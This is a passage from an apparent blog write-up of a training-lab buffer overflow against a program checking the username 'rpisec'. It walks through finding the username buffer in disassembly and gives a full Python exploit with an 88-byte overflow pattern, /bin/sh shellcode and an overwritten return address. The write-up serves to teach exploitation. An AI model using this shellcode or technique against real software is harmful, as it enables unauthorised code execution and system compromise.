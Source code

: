 If we look at the disassembly of the main function we see that the address of the username variable is referenced before being passed to the **fgets** function and then to the **verify_user_name** function.


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/usrnmvar1.png)



And checking the variable's memory we see the string "rpisec".


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/usrnmvar2.png)



Now knowing the address of the username variable and also how to overwrite the return address, let's write our exploit...


```py
import struct

name = b"rpisec"

# addr a_user_name var that store username + 6 bytes to the shellcode addr
nameaddr = 0x555555558086

# 88 bytes to overflow
pattern = b"AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKK"

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

nm = struct.pack('<Q', nameaddr)

buf = b''
buf += name		# pass in verify_user_name function
buf += shellcode        # /bin/sh shellcode
buf += b'\n'		# break line to align the buffer
buf += pattern          # buffer to overflow password var
buf += nm		# addr of shellcode in name var


f = open("exp", "wb")
f.write(buf)
```
